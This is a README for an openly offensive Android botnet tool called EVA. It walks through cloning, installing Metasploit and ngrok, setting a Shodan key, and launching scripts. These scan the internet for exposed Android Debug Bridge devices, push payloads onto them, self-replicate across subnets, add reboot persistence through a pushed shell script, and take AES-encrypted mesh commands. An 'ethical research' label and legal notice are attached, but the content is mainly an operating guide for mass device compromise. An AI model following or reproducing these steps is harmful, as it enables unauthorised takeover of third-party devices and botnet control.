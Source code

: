 # EVA ADB Botnet  
**Built by:** x3rx3s, ekomsSavior & m0usem0use  
**Purpose:** Ethical cybersecurity research, mesh-based botnet exploration, long-term persistent control of Android devices via open ADB, and encrypted peer-to-peer botnet mesh command.

---

## Getting Started (Clone + Setup)

To install EVA on any Kali Linux system using your GitHub SSH key:

### 1. Clone the private repository using SSH

```bash
git clone git@github.com:ekomsSavior/Eva_adb_botnet.git
cd Eva_adb_botnet
```

> ⚠️ If this doesn't work, make sure you’ve:
> - [ ] Added your SSH key to GitHub under Settings → SSH and GPG keys  
> - [ ] Tested the connection with: `ssh -T git@github.com` 

Now install dependencies:

```bash
sudo apt update && sudo apt install -y android-tools-adb metasploit-framework android-tools-adb python3-pip
pip3 install pycryptodome requests
mkdir -p bots
```

Then download and install `ngrok`:

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok
```
##optional adb install if youre having issues with the above adb install: 
Use Google’s ADB installer
Manual method (safe + universal):

```bash
sudo mkdir -p /opt/android-platform-tools
cd /opt/android-platform-tools
sudo wget https://dl.google.com/android/repository/platform-tools-latest-linux.zip
sudo unzip platform-tools-latest-linux.zip
sudo mv platform-tools/* .
sudo rm -r platform-tools platform-tools-latest-linux.zip
```

Then add ADB to your PATH permanently:
```bash
echo 'export PATH=$PATH:/opt/android-platform-tools' >> ~/.bashrc
source ~/.bashrc
```




You should now have:
- All EVA scripts in this folder (`Eva_adb_botnet/`)
- A `bots/` directory for bot state files
- An executable `ngrok` in the same folder

---

##  One-Time Setup (Before Launch)

### 1. Set your Shodan API Key  
Edit `adb_reaper.py` and replace this line with your actual key:

```python
SHODAN_API_KEY = 'YOUR_SHODAN_API_KEY'
```

### 2. Set Payload Path  
In `adb_dropper.py`, make sure this line points to either your APK or `jeangrey_android.py`:

```python
ADB_PAYLOAD = "/root/jeangrey_android.py"
```

### 3. Set AES Encryption Key  
In `jeangrey_crypto.py`, make sure this is a strong 16-byte key:

```python
SECRET_KEY = b'Sixteen byte key'  # Change this before deployment
```

---

##  Full Botnet Launch

From inside the EVA directory:

```bash
python3 EVA_launcher.py
```

This will:
- Scan Shodan for open Android Debug Bridge (ADB) targets
- Drop the payload to each ADB-enabled device
- Start the Metasploit handler in the background
- Deploy `jeangrey_android.py` to infected targets
- Start mesh communication (UDP AES-encrypted)
- Activate replication and persistence features
- Launch the AI trigger engine
- Broadcast EVA Core’s presence across the mesh

---

## 📺 Monitor Bots (Dashboard)

To watch all active bots:

```bash
python3 eva_dashboard.py
```

This will:
- Read each bot's `jeangrey_state.json` inside `bots/`
- Show ID, IP, tags, and last seen timestamp
- Auto-refresh every 3 seconds

---

##  Send Mesh Commands (EVA Core)

```bash
python3 eva_core.py
```

This will:
- Broadcast EVA presence to all bots
- Allow you to send AES-encrypted commands to selected bot IPs
- Schedule execution after a timed delay

Supported commands:
- `scan` – make the bot scan for nearby ADB devices
- `drop` – redeploy the payload
- `report` – return full bot state
- `shutdown` – stop bot process

---

##  Auto-Response Engine (Bot Intelligence)

```bash
python3 eva_ai_trigger.py
```

This makes bots:
- Listen 24/7 for AES mesh commands
- React immediately and autonomously
- Execute mesh-sent tasks like scanning, reporting, or replicating

---

##  Self-Replication + Persistence

Bots will:
- Use `jeangrey_replication.py` to infect subnet ADB targets
- Write `bots/bot_<ip>/jeangrey_state.json` on first run
- Update `last_seen` every 60 seconds

To manually ensure reboot persistence:

```bash
adb push jeangrey_persist.sh /sdcard/Download/
adb shell sh /sdcard/Download/jeangrey_persist.sh
```

This appends a startup line to `~/.bashrc` on the infected Android.

---

##  Bot Management

To rename, retag, or kill bots manually:

```bash
python3 state_editor.py
```

This opens a terminal menu to:
- Rename bot IDs
- Add/remove tags
- View bot JSON
- Permanently delete (💀) rogue nodes

---

## 🧱 Directory Structure (After Setup)

```
Eva_adb_botnet/
├── EVA_launcher.py
├── eva_core.py
├── eva_ai_trigger.py
├── eva_dashboard.py
├── jeangrey_android.py
├── jeangrey_crypto.py
├── jeangrey_mesh.py
├── jeangrey_replication.py
├── jeangrey_tunnel.py
├── jeangrey_persist.sh
├── adb_reaper.py
├── adb_dropper.py
├── metasploit_launcher.py
├── jeangrey_injector.py
├── state_editor.py
├── ngrok
└── bots/
    ├── bot_<ip>/
    │   └── jeangrey_state.json
```

---

## Legal & Ethical Notice

EVA is for:
- Controlled environments only
- that you have permission to test on

**Never deploy EVA on public networks or without permission.**  
Misuse may be illegal.

---

## 🧠 Vision

EVA is not just a botnet — it's a **mesh consciousness**.  
She replicates. She listens. She obeys. 

